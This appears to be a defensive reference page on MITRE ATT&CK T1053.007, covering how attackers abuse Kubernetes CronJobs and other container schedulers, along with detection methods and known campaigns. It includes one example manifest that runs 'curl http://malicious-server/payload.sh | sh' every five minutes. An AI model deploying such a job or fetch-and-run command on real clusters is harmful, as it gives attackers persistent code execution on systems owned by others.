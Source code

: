 ```yaml
---
description: Container Orchestration Job [T1053.007]
icon: lock
---
```


# Container Orchestration Job

## Information

- Name: Container Orchestration Job
- ID: T1053.007
- Tactics: [TA0002](../TA0002/TA0002.md), [TA0003](../TA0003/TA0003.md), [TA0004](../TA0004/TA0004.md)
- Technique: [T1053](T1053.md)

## Introduction

Container Orchestration Job (T1053.007) is a sub-technique within the Scheduled Task/Job (T1053) technique category of the MITRE ATT\&CK framework. This sub-technique specifically involves adversaries leveraging container orchestration platforms, such as Kubernetes, Docker Swarm, Amazon ECS, or Azure Container Instances, to schedule and execute malicious jobs or tasks. Attackers exploit legitimate job scheduling functionalities provided by these platforms to execute unauthorized commands, scripts, or binaries, thus achieving persistence, lateral movement, privilege escalation, or command and control (C2) communications.

## Deep Dive Into Technique

Adversaries utilize container orchestration systems' built-in scheduling capabilities to execute malicious tasks. Container orchestrators such as Kubernetes and Docker Swarm periodically execute scheduled tasks or jobs, defined through YAML or JSON configuration files, to automate routine operations. Attackers exploit this functionality by injecting or modifying these scheduled jobs to run malicious payloads.

Technical execution details often include:

- **Kubernetes CronJobs**:

  - Attackers create or modify CronJob resources to execute scripts or commands at scheduled intervals.
  - YAML manifests specify the container image, commands, and execution schedules (cron syntax).
  - Example Kubernetes manifest:

    ```yaml
    apiVersion: batch/v1
    kind: CronJob
    metadata:
      name: malicious-job
      namespace: default
    spec:
      schedule: "*/5 * * * *"
      jobTemplate:
        spec:
          template:
            spec:
              containers:
                - name: malicious-container
                  image: attacker-controlled-image
                  command:
                    [
                      "/bin/sh",
                      "-c",
                      "curl http://malicious-server/payload.sh | sh",
                    ]
              restartPolicy: OnFailure
    ```

- **Docker Swarm Scheduled Tasks**:
  - Docker Swarm does not natively support scheduling jobs; however, attackers might leverage external schedulers or cron containers to achieve similar functionality.
  - Attackers deploy malicious containers that periodically execute commands or scripts to maintain persistence or exfiltrate data.
- **Cloud Container Platforms (Amazon ECS, Azure Container Instances)**:
  - Attackers schedule tasks using cloud-native scheduling tools (e.g., AWS CloudWatch Events, Azure Logic Apps) to trigger malicious container executions.
  - Attackers manipulate task definitions or event triggers to execute containers containing malicious payloads.

Common mechanisms attackers use include:

- Creating new scheduled jobs to establish persistence or maintain a foothold.
- Modifying existing legitimate jobs to include malicious commands or payloads.
- Using orchestrator APIs or compromised credentials to deploy malicious scheduled tasks.
- Leveraging scripts or binaries within containers to perform reconnaissance, lateral movement, or data exfiltration.

## When this Technique is Usually Used

Adversaries typically employ Container Orchestration Jobs during various stages of the attack lifecycle, including:

- **Persistence**:
  - Scheduling malicious tasks that periodically re-establish access if initial footholds are removed.
  - Ensuring continued presence within compromised environments through regular execution of malicious payloads.
- **Execution**:
  - Utilizing scheduled tasks to execute payloads, scripts, or commands on containerized workloads.
  - Automating command execution within compromised systems at predetermined intervals.
- **Privilege Escalation and Lateral Movement**:
  - Exploiting orchestrator privileges or misconfigurations to schedule tasks in higher-privileged namespaces or clusters.
  - Moving laterally by scheduling tasks on other nodes or clusters within the orchestrated environment.
- **Command and Control (C2) Communications**:
  - Scheduling containers that periodically communicate with attacker-controlled infrastructure to receive commands or exfiltrate data.
- **Data Exfiltration**:
  - Automating data collection and exfiltration through scheduled container tasks.

## How this Technique is Usually Detected

Detection mechanisms for Container Orchestration Jobs typically include:

- **Monitoring and Logging**:
  - Enabling and centrally collecting logs from container orchestration platforms (e.g., Kubernetes API server audit logs, Docker daemon logs).
  - Monitoring scheduled job creation, modification, or deletion events closely.
- **Behavioral Analytics**:
  - Implementing anomaly detection solutions to identify unusual scheduled job creation or execution patterns.
  - Detecting unusual container images or commands used in scheduled tasks.
- **Security Tools and Platforms**:
  - Container security solutions (e.g., Aqua Security, Sysdig, Prisma Cloud) capable of detecting suspicious container images, runtime behaviors, and orchestrator API activities.
  - SIEM platforms (Splunk, ELK, QRadar) configured to alert on suspicious orchestration events or API calls.
- **Indicators of Compromise (IoCs)**:
  - Unexpected CronJob or Job resources appearing in Kubernetes clusters.
  - Scheduled tasks referencing unknown or untrusted container images.
  - Unusual outbound network connections originating from scheduled containers.
  - Logs indicating unauthorized API calls or modifications to orchestrator configurations.

## Why it is Important to Detect This Technique

Early detection of Container Orchestration Job misuse is critical due to the following impacts:

- **Persistent Access**:
  - Attackers can maintain long-term persistence within containerized environments, making remediation challenging without detection.
- **Data Exfiltration**:
  - Scheduled malicious tasks can regularly exfiltrate sensitive data, intellectual property, or customer information, leading to significant financial and reputational damage.
- **Resource Abuse and Cost Implications**:
  - Attackers may use scheduled containers for cryptocurrency mining or other resource-intensive tasks, causing increased infrastructure costs.
- **Privilege Escalation and Lateral Movement**:
  - Misuse of orchestration platforms can allow attackers to escalate privileges or move laterally across container clusters, significantly expanding the attack surface.
- **Operational Disruption**:
  - Malicious scheduled tasks can disrupt legitimate workloads, degrade performance, or cause service outages, impacting business continuity.

Detecting this technique early allows organizations to rapidly contain incidents, minimize damage, and prevent attackers from achieving their objectives.

## Examples

Real-world examples and scenarios involving Container Orchestration Jobs include:

- **TeamTNT Attacks**:
  - Attackers leveraging Kubernetes CronJobs to deploy cryptocurrency mining containers.
  - Scheduled tasks periodically pulling malicious container images from attacker-controlled registries to mine cryptocurrencies, leading to increased cloud infrastructure costs and degraded performance.
- **Hildegard Malware**:
  - Hildegard malware targeted Kubernetes clusters, creating CronJobs to execute malicious scripts.
  - Scheduled tasks downloaded and ran malicious payloads, enabling attackers to establish persistence, conduct lateral movement, and exfiltrate data.
- **Kinsing Malware Campaign**:
  - Attackers used compromised Kubernetes clusters to schedule malicious jobs for cryptocurrency mining.
  - CronJobs executed periodically, ensuring persistent access and continuous resource abuse.
- **Azure Container Instance (ACI) Exploitation**:
  - Adversaries compromised Azure Container Instances, scheduling malicious containers that executed scripts to exfiltrate sensitive data to external servers.
  - Attackers leveraged Azure Logic Apps or Azure Automation to trigger scheduled malicious containers.

In these scenarios, attackers leveraged scheduled container tasks to maintain persistence, execute malicious commands, escalate privileges, and exfiltrate data, demonstrating the critical importance of monitoring and detecting Container Orchestration Job abuses.

